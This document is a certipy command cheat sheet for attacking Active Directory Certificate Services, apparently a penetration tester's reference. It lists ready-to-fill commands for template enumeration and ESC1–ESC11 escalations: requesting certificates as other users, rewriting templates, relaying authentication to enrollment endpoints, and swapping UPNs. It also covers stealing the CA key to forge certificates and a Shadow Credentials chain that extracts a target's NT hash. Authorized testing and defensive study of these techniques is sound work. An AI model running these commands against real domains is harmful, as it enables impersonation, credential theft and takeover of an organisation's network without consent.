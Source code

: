 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential
#plateform/linux #target/remote #cat/AD/RECON

## enum -  list enabled certificate templates 
```
certipy find -enabled  -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
add CA to /etc/hosts
```
certipy find -enabled -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
```
certipy find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates (socks)
add CA to /etc/hosts
```
certipy find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certipy find -enabled  -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -old-bloodhound
```

## req - request certificate (v1)
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> 
```

## req - request certificate (v2)
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -template <template> 
```


## req - retrieve approved request 
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -retrieve <id>
```

## cert - extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## cert - extract key from pfx
```
certipy cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## cert - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## auth - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type ======> keep trying 
```
certipy auth -pfx <pfx-file>  -domain <domain_fqdn> -username <user> -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```

## auth - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```bash
certipy auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain_fqdn> -p '<password>' -backup -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name>
```

## Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain_fqdn> -crl ldap://<dc_ip>:389
```

## req - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>  -upn <targeted-user>@<domain_fqdn>
```

## req - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## template - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -template <template> -save-old
```

## ca - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -issue-request <csr-id>
```

## relay - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target <ca_ip>  -template <template>
```

## relay - relay authentication to RPC Enrollment - ESC11
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target "rpc://<ca_name>.<domain_fqdn>" -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>
```

## account - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user <targeted-user> -upn <target_upn>
```

## account - add computer
#plateform/linux #target/remote #cat/ATTACK
```
certipy account create -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user user <computer_name> -dns <fqdn>
```


## shadow - get NT Hash using Shadow Credential
#plateform/linux #target/remote #cat/ATTACK/AD/DACL-ABUSE/ShadowCredentials
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain_fqdn> -p '<password>' -account <targeted-user>  -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```